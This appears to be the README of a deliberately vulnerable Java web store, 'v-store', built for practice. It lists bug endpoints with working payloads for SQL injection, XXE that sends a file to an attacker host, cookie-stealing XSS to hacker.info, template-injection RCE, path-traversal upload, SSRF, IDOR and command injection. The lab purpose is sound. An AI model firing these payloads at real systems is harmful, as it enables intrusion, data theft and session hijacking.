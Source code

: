 # v-store
/Vstore

## Bug API
### 1. GET "/product/findUnsafe"
- Bug: SQLi
- Params: {name}
- Payload:
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: http://localhost:8080/product/findUnsafe?name=' OR 6776=6776#
    
    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: http://localhost:8080/product/findUnsafe?name=a'union+select+user_name,null,null,null+from+user;%23

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND GTID_SUBSET(CONCAT(0x716b6b6a71,(SELECT (ELT(8054=8054,1))),0x716b717871),8054)-- jkbJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND (SELECT 5823 FROM (SELECT(SLEEP(5)))RyfP)-- FGig
    
### 2. POST "/product/showBillVuln"
- Bug: Blind Out-of-Band XXE
- Params: object User in body request
- Payload: 
+ SSRF 
```
  <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://kayrz7fdlsb6w9gif751ob26rxxtli.burpcollaborator.net"> ]>
    <user>
      <id_user>&xxe;</id_user>
    </user>
  ```
+ OOB

--- DTD file ---
```
<!ENTITY % file SYSTEM "file:///d:/cache.txt">
        <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-host/%file;'>">
        %eval;
        %exfiltrate;
```
-- payload --
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://DTD-url"> %xxe;]>
<user>
<id_user>1</id_user></user>
```

### 3. POST "/product/buy"
- Bug: Logic
- Params: {num, id}
- Payload: num=-1&id=5

### 4. GET "/infoUserVuln"
- Bug: IDOR
- params: id
- payload: id=4

### 5. POST "/upAVTVuln"
- Bug: upload file avt tùy ý dẫn tới RCE, XSS
- params: image
- Payload: 
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC </h1>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload RCE: 
+ Upfile:
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC RCE</h1>
<p th:text="${T(java.lang.Runtime).getRuntime().exec('calc')}"/>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload XSS:
```
POST /upAVTVuln HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

------WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="xss.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC CSS</h1>
<script>
            var cookie = document.cookie;
            let xhr = new XMLHttpRequest();
            let url = "http://hacker.info:8888/?a=";					
            xhr.open("GET", url+cookie, true);						            
            xhr.send();
</script>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
+ Link CSS: GET "/getImage?name=xss.html"


### 6. POST "/upAVTUrlVuln"
- Bug: SSRF
- Params: url
- Payload: 

"http://host.com/pic.png"

"file:c:/C:/Windows/system.ini"

### 7. GET "/getImage"
- Bug: get file tùy ý
- Params: name
- payload: "../../templates/home.html"
   
### 8. POST "/informationUser/edit"
- Bug: Template Injection
- Params: preferred (type json)
- Payload:
```
T(org.apache.commons.io.IOUtils).toString(
    T(java.lang.Runtime).getRuntime().exec('powershell ls').getInputStream(),
    T(java.nio.charset.StandardCharsets).UTF_8.name()
    )
```
-> nhận kết quả ở GET "/informationUser"
### 9 POST "/admin/checkAVTVuln"
- Bug: Command injection
- Params: name
- Payload: name=')){}else{ls;};#
